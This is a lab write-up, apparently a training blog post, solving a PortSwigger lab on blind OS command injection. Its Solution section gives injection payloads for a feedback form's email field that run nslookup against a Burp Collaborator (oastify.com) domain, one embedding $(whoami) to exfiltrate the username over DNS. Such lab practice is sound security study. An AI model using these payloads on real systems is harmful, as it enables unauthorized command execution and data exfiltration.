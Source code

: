 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-15T15:22:00Z
modDatetime: 2024-10-15T09:12:47.400Z
title: Blind OS command injection with out-of-band data exfiltration
slug: os-portswigger-lab-2
featured: false
draft: false
tags:
  - BSCP
  - Command Injection
description:
  This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain. To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.    
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Solution 

Just like the last lab related OOB interaction, we can use the same following payload `|| nslookup m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` and pass this through the `email` field and let's check whether any interactions 

Awesome, we got the DNS interaction 

![](../../assets/images/bscp/os/os-13.png)

Now, let's kinda fine tune the payload like `|| nslookup $(whoami).m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` where the backticks or even `$(whoami)` will act as a inline execution of bash commands over there 

Resend the payload through the `email` field and looking into the collaborator found that the `whoami` executed 

![](../../assets/images/bscp/os/os-14.png)

`whoami` command resulted in `peter-iAmZjL` and submitting as solution.. Solves the lab 

![](../../assets/images/bscp/os/os-15.png)